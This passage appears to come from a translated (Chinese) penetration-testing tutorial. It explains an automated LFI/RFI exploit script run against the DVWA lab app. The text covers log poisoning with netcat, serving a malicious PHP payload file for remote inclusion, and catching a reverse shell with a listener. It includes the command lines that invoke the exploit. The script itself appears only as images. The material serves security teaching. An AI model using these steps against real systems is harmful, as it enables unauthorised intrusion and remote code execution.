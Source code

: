 在以下代码段中，第 65-74 行检查要测试的应用程序是否需要对要利用的漏洞进行身份验证：

![](assets/58e6d1f1-3be7-489c-b957-61c30bdb0d7b.png)

如果需要身份验证，则在 Selenium Python 浏览器/驱动程序上设置用户提供的 cookie 值，并使用 cookie 数据调用 URL 以获得有效会话：

![](assets/004a5612-24a9-4a1f-b394-e8ebc59fa3e1.png)

90 和 105 之间的行用于控制 LFI 漏洞工作流。本节包含我们手动执行的一系列步骤。在第 91 行中，我们准备了恶意 URL，该 URL 将毒害日志文件，并在`access.log`文件中放置一个 PHP 代码片段。在第 93 行中，我们将该恶意 URL 放在一个名为`exp.txt`的文本文件中，并要求 Netcat 从该文件中获取输入。记得我们之前在毒害`access.log`文件时使用了`netcat`；这里将重复相同的操作。在第 97 行中，我们要求`netcat`连接到端口`80`上的受害者服务器，从`exp.txt`文件中获取一个输入，并将该输入发送到受害者服务器，这样日志就会中毒。我们通过创建一个 bash 脚本`exp.sh`来实现这一点。在第 99 行中，我们调用这个 bash 脚本，它将依次调用`netcat`并导致`netcat`从`evil.txt`文件中获取输入，从而毒害日志。在第 103 行中，我们设置了利用 URL，我们将对其进行模拟 selenium 浏览器访问，以便为我们提供一个反向 shell：

![](assets/ca58e9a5-7ce5-4b93-b1ad-b94a472b1cf0.png)

在第 115 行中，我们正在调用一个进程，该进程将导致浏览器使用该进程的`start()`方法（在第 116 行下）向有漏洞的页面发出有效负载请求。但在实际访问该漏洞之前，我们需要设置一个 netcat 侦听器。第 119 行设置了一个 Netcat 侦听器，我们引入了 5 秒的时间延迟，从处理方法`send_exp()`的定义中可以看出，这给了 Netcat 启动的时间。一旦启动，有效载荷通过第 61 行下的`send_exp()`方法交付。如果一切顺利，我们的听者就会得到答案。

第 107-113 行处理漏洞的 RFI 部分。为了利用 RFI，我们需要在攻击者的机器上创建一个邪恶的文件`evil.txt`，该文件将提供 PHP 负载。一旦创建，我们需要将其放置在`/var/www/html/evil.txt`中。然后，我们需要启动 Apache 服务器并将有效负载交付 URL 更新为 RFI 的地址。最后，使用`send_exp()`方法，我们交付有效负载，然后启动 netcat 侦听器。

前面的代码适用于 LFI 和 RFI 漏洞。给定的代码按以下顺序获取用户参数：

```
python LFI_RFI.py <target ip> <target Base/Login URL> <target Vulnetable URL> <Target Vul parameter> <Login required (1/0)> <Login cookies> <Attacker IP> <Attacker Lister PORT> <Add params required (1/0)> <add_param_name1=add_param_value1,add_param_name2=add_param_value2>  | <LFI (0/1)>
```

# 执行 LFI 攻击

要执行和利用 LFI 漏洞，我们将向脚本传递以下参数：

```
python LFI_RFI.py 192.168.1.102 http://192.168.1.102/dvwa/login.php http://192.168.1.102/dvwa/vulnerabilities/fi/ page 1 "security=low;PHPSESSID=5c6uk2gvq4q9ri9pkmprbvt6u2" 192.168.1.102 4444
```

前面的命令将生成输出，如以下屏幕截图所示：

![](assets/0a149bad-cf5b-4443-9498-5362a47481b9.png)![](assets/f55804f0-eee1-4ada-9e80-3ba646eadbe7.png)

可以看出，我们已经成功获得了一个低特权外壳`www-data`。

# 执行 RFI 漏洞攻击

要执行和利用 RFI 漏洞，我们将向脚本传递以下参数：

```
python LFI_RFI.py 192.168.1.102 http://192.168.1.102/dvwa/login.php http://192.168.1.102/dvwa/vulnerabilities/fi/ page 1 "security=low;PHPSESSID=5c6uk2gvq4q9ri9pkmprbvt6u2" 192.168.1.102 4444 0 0
```
